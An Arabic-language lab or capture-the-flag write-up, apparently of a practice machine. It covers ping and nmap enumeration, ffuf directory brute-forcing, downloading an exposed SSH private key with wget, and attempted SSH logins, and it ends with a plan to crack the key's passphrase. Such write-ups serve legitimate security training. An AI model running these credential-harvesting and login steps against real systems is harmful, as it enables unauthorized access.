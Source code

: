 ## **1. Network Enumeration**

### **1.1. ICMP Ping Test**

أول خطوة كانت التأكد من أن الجهاز الهدف شغال باستخدام **ping**:

```bash
ping 10.10.80.175
```

النتيجة أظهرت أن الجهاز **up** مع زمن استجابة يتراوح بين **96ms - 157ms**.

### **1.2. Nmap Scan - Port Scanning & Service Detection**

بعدها، استخدمت **Nmap** لتحديد المنافذ المفتوحة والخدمات التي تعمل عليها:

```bash
nmap -n -sV 10.10.80.175
```

#### **النتائج**:

- **22/tcp** → **OpenSSH 7.2p2 (Ubuntu)**
- **80/tcp** → **Apache 2.4.18 (Ubuntu)**

## **2. Web Enumeration & Directory Brute-Forcing**

### **2.1. Directory Fuzzing باستخدام ffuf**

بعد اكتشاف وجود **Apache** على المنفذ **80**، استخدمت **ffuf** لاكتشاف الأدلة المخفية:

```bash
ffuf -u http://10.10.80.175/sitemap/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

#### **النتائج المهمة**:

- **.htaccess** (403 Forbidden)
- **.ssh/** (301 Redirect)
- **index.html** (200 OK)
- **password** (200 OK)

## **3. Exploitation - SSH Key Extraction**

### **3.1. استخراج مفتاح SSH من مجلد sitemap**

تم العثور على مجلد **.ssh** وبعد محاولة تصفحه، تم اكتشاف ملف **id_rsa**.  
قمت بتحميله باستخدام **wget**:

```bash
wget http://10.10.80.175/sitemap/.ssh/id_rsa
```

ثم تحققت من وجوده في النظام:

```bash
ls -lh
```

حجم الملف حوالي **1.7K**، مما يؤكد أنه مفتاح **RSA Private Key**.

### **3.2. محاولة تسجيل الدخول باستخدام المفتاح**

حاولت استخدام المفتاح لتسجيل الدخول عبر **SSH**:

```bash
ssh -i id_rsa username@10.10.80.175
```

ولكن ظهرت المشكلة التالية:

```
Permissions 0664 for '/home/yousef/.ssh/id_rsa' are too open.
```

### **3.3. تعديل صلاحيات الملف**

لإصلاح المشكلة، قمت بتغيير صلاحيات المفتاح باستخدام:

```bash
chmod 600 ~/.ssh/id_rsa
```

ثم حاولت تسجيل الدخول مجددًا:

```bash
ssh -i ~/.ssh/id_rsa JESSIE@10.10.80.175
```

ولكنه طلب كلمة مرور إضافية، مما يشير إلى أن المفتاح محمي بكلمة مرور أو أن المستخدم خطأ.

## **4. الخلاصة**

1. **اكتشاف الخدمات المفتوحة:** تم العثور على SSH و Apache.
2. **استخراج الملفات المخفية:** باستخدام **ffuf**، تم العثور على مجلد **.ssh**.
3. **استغلال الملفات:** تم تحميل **id_rsa**، ولكن تسجيل الدخول فشل بسبب الحاجة إلى كلمة مرور.

### **الخطوات القادمة**:

- تجربة **John the Ripper** لكسر كلمة المرور على **id_rsa**.
- البحث عن كلمات مرور مخزنة في الملفات المستخرجة.


![[Pasted image 20250323225914.png]]
